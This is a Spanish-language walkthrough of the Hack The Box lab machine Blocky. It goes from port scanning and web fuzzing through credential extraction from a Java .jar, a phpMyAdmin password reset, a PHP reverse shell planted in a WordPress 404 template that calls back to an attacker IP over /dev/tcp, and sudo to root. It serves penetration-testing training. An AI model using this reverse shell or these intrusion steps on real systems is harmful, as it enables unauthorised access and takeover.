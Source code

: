 ```yaml
---
layout: post
title: HTB_Blocky
date: 2023/07/10
slug: HTB_Blocky
heroImage: /assets/machines.jpg
---
```


# Blocky {-}

## Introduccion {-}

La maquina del dia 30/07/2021 se llama Blocky
.

El replay del live se puede ver aqui

[![S4vitaar Blocky maquina](https://img.youtube.com/vi/LPh8BTqEx2c/0.jpg)](https://www.youtube.com/watch?v=LPh8BTqEx2c)

No olvideis dejar un like al video y un comentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.37
```
ttl: 63 -> maquina linux. 
Recuerda que en cuanto a ttl se trata, 64 = linux y 128 = windows. 
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.37 
```

si consideras que va muy lento el escaneo puedes poner los siguientes parametros para que valla mucho mas rapido

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.37 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p21,22,80,25565 10.10.10.37 -oN targeted
```

| Puerto | Servicio  | Que se nos occure?                        | Que falta?           |
| ------ | --------- | ----------------------------------------- | -------------------- |
| 21     | ftp       | conectar como anonymous                   |                      |
| 22     | ssh       | conexion directa                          | usuario y contraseña |
| 80     | http      | Analisis de la web y Fuzzing              |                      |
| 25565  | minecraft | con el puerto 53 pensamos en virt hosting |                      |


### Conectar al ftp como anonymous {-}

```bash
ftp 10.10.10.37
Name: anonymous
password: <enter>
#Output
530 Login incorrect.
```

No nos deja entrar como anonymous

### Analizando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.37
```

Aqui vemos que estamos en un Wordpress

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p80 10.10.10.37 -oN webScan
```

Ya nos detecta un `/phpmyadmin/` y ficheros de wordpress

#### Chequear la web del puerto 80 {-}

Con firefox navegamos en la web para ver lo que es.

- wappalizer nos dice que es Wordpress
- Vemos que la web esta under construction
- Si pinchamos el post vemos que es el usuario NOTCH que lo a echo

Como es un wordpress intentamos ir al `http://10.10.10.37/wp-login.php` y miramos si hay el usuario NOTCH. 
Efectivamente el usuario NOTCH existe. 

Vamos a por el `http://10.10.10.37/phpmyadmin/` y buscamos previamente en google si encontramos credenciales por
defecto pero no funcionan.

Tenemos que ir buscando mas rutas.

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.37/WFUZZ
```

Encontramos un ruta plugins que no suele ser normal porque en wordpress los plugins suelen estar en `/wp-content/plugins` y no
en `/plugins` directamente

Aqui encontramos dos ficheros `.jar`. Los descargamos en nuestra maquina de atacante.




## Evaluacion de vulnerabilidades {-}

### Analizamos los ficheros {-}

Los ficheros `.jar` son ficheros comprimidos que se pueden descomprimir con la herramienta `unzip`

```bash
unzip BlockyCore.jar
unzip griefprevention-1.11.2-3.1.1.298.jar
```

Ya tenemos ficheros `.class` que podemos analizar con **strings** o mejor con **javap**

```bash
javap -c Blockycore.class
```

Aqui ya podemos ver cosas como un usuario root y una contraseña para un sqlUser.

Aqui vamos a la url `http://10.10.10.37/phpmyadmin/` y probamos. Ya podemos entrar en el panel de configuracion
de la base de datos.

Vemos la base de datos de wordpress y le cambiamos la contraseña al usuario NOTCH. Lo unico seria seleccionnar la Funcion
MD5 al lado de la contraseña.


![hmyadmi-otch](/assets/images/phpmyadmin-notch.png) 
Intentamos conectar al wordpress con el usuario NOTCH y su nueva contraseña y pa dentro.


### Editar el 404 Template de Wordpress {-}

Cada vez que se puede entrar en el panel de administracion de wordpress siempre hacemos lo mismo.

Pinchamos en `Appearance > Editor` y retocamos el fichero 404 Template.

> [ ! ] Nota: Si este fichero no existe, justo encima, se puede **Select theme to edit** y buscar otro tema.

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Crear una reverse shell desde la 404 Template {-}

Nos ponemos en escucha con el puerto 443.

```bash
nc -nlvp 443
```

Editamos el fichero 404 Template con una reverse shell en php

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'");
?>
```

ya podemos ir al url `http://10.10.10.37/?p=404.php` y pa dentro

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### User Pivoting al usuario notch {-}

Miramos si hay reutilisacion de contraseñas 

```bash
su notch 
```

Y con la contraseña encontrada en el ficher `BlockyCore.class` funciona. Y ya podemos ver la flag.## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
sudo -l
#Output
(ALL : ALL) ALL
```

Vemos que el usuario notch puede efectuar cualquier comando como qualquier usuario ;)

```bash
sudo su
whoami

root
```

Ya esta ;)

